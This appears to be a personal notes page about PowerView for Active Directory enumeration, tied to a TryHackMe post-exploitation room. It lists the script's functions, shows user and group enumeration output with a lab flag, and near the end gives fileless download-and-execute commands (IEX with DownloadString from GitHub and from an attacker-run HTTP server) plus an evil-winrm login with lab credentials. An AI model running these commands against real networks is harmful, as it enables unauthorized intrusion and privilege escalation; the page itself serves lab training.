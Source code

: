 # PowerView

### [103 functions in PowerView.ps1](#103-functions-in-powerviewps1-1)
```
cat PowerView.ps1 | grep ^funct |nl
gc .\PowerView.ps1 | sls ^func
```
### [Check specific function in PowerShell script](#check-specific-function-in-powershell-script-1)

## [Post-Exploitation Basics](https://tryhackme.com/room/postexploit)

### [Enumerate the domain users with "Get-NetUser | select cn"](#enumerate-the-domain-users-with-get-netuser--select-cn-1)

### [Enumerate the domain groups with "Get-NetGroup *admin*"](#enumerate-the-domain-groups-with-get-netgroup-admin-1)

### [Useful cheatsheet from HarmJ0y](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)


```

```

### 
```

```

### Examples

### Check specific function in PowerShell script
```
PS C:\Users\Administrator\Downloads> gc .\PowerView.ps1 | sls ^func.*Get-NetUser

function Get-NetUser {
```

### Enumerate the domain users with "Get-NetUser | select cn"
```
PS C:\> Get-NetUser | select cn

cn                  
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
ssh
```

### Enumerate the domain groups with "Get-NetGroup *admin*"
Get-NetGroup -GroupName *admin*
```
PS C:\> Get-NetGroup *admin*
Administrators 
Hyper-V Administrators 
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
PS C:\>
```

### 
```

```

### 103 functions in PowerView.ps1
### gc .\PowerView.ps1 | sls ^func
```
$ cat PowerView.ps1 | grep ^funct |nl
     1  function New-InMemoryModule {
     2  function func {
     3  function Add-Win32Type
     4  function.
     5  function before returning from the attributed method.
     6  function psenum {
     7  function field {
     8  function struct
     9  function Get-IniContent {
    10  function Export-PowerViewCSV {
    11  function Resolve-IPAddress {
    12  function ConvertTo-SID {
    13  function ConvertFrom-SID {
    14  function Convert-ADName {
    15  function ConvertFrom-UACValue {
    16  function Get-PrincipalContext {
    17  function Add-RemoteConnection {
    18  function Remove-RemoteConnection {
    19  function Invoke-UserImpersonation {
    20  function Invoke-RevertToSelf {
    21  function Get-DomainSPNTicket {
    22  function Invoke-Kerberoast {
    23  function Get-PathAcl {
    24  function Convert-LDAPProperty {
    25  function Get-DomainSearcher {
    26  function Convert-DNSRecord {
    27  function Get-DomainDNSZone {
    28  function Get-DomainDNSRecord {
    29  function Get-Domain {
    30  function Get-DomainController {
    31  function Get-Forest {
    32  function Get-ForestDomain {
    33  function Get-ForestGlobalCatalog {
    34  function Get-ForestSchemaClass {
    35  function Find-DomainObjectPropertyOutlier {
    36  function Get-DomainUser {
    37  function New-DomainUser {
    38  function Set-DomainUserPassword {
    39  function Get-DomainUserEvent {
    40  function Get-DomainGUIDMap {
    41  function Get-DomainComputer {
    42  function Get-DomainObject {
    43  function Get-DomainObjectAttributeHistory {
    44  function Get-DomainObjectLinkedAttributeHistory {
    45  function Set-DomainObject {
    46  function ConvertFrom-LDAPLogonHours {
    47  function New-ADObjectAccessControlEntry {
    48  function Set-DomainObjectOwner {
    49  function Get-DomainObjectAcl {
    50  function Add-DomainObjectAcl {
    51  function Remove-DomainObjectAcl {
    52  function Find-InterestingDomainAcl {
    53  function Get-DomainOU {
    54  function Get-DomainSite {
    55  function Get-DomainSubnet {
    56  function Get-DomainSID {
    57  function Get-DomainGroup {
    58  function New-DomainGroup {
    59  function Get-DomainManagedSecurityGroup {
    60  function Get-DomainGroupMember {
    61  function Get-DomainGroupMemberDeleted {
    62  function Add-DomainGroupMember {
    63  function Remove-DomainGroupMember {
    64  function Get-DomainFileServer {
    65  function Get-DomainDFSShare {
    66  function Get-GptTmpl {
    67  function Get-GroupsXML {
    68  function Get-DomainGPO {
    69  function Get-DomainGPOLocalGroup {
    70  function Get-DomainGPOUserLocalGroupMapping {
    71  function Get-DomainGPOComputerLocalGroupMapping {
    72  function Get-DomainPolicyData {
    73  function Get-NetLocalGroup {
    74  function Get-NetLocalGroupMember {
    75  function Get-NetShare {
    76  function Get-NetLoggedon {
    77  function Get-NetSession {
    78  function Get-RegLoggedOn {
    79  function Get-NetRDPSession {
    80  function Test-AdminAccess {
    81  function Get-NetComputerSiteName {
    82  function Get-WMIRegProxy {
    83  function Get-WMIRegLastLoggedOn {
    84  function Get-WMIRegCachedRDPConnection {
    85  function Get-WMIRegMountedDrive {
    86  function Get-WMIProcess {
    87  function Find-InterestingFile {
    88  function New-ThreadedFunction {
    89  function Find-DomainUserLocation {
    90  function enumerates any active user sessions with Get-NetSession/Get-NetLoggedon
    91  function Find-DomainProcess {
    92  function enumerates any current processes running with Get-WMIProcess,
    93  function Find-DomainUserEvent {
    94  function Find-DomainShare {
    95  function Find-InterestingDomainShareFile {
    96  function Find-LocalAdminAccess {
    97  function Find-DomainLocalGroupMember {
    98  function Get-DomainTrust {
    99  function Get-ForestTrust {
   100  function Get-DomainForeignUser {
   101  function Get-DomainForeignGroupMember {
   102  function Get-DomainTrustMapping {
   103  function Get-GPODelegation {
```

### Some more in-memory PS injections
https://gist.github.com/bad-bit/b7157c624a820f3d982e38a8b628f590
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/Get-System.ps1');
```

# local
```
cd ~/tools
python -m http.server 80
```

# remote
```
evil-winrm -i $ip -u svc-alfresco -p s3rvice
menu
IEX (New-Object Net.WebClient).DownloadString('http://$myip/PowerView.ps1');
menu
```


### 
```
PS C:\> Get-DomainUser
Exception calling "FindAll" with "0" argument(s): "Unknown error (0x80005000)"
At C:\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : COMException
```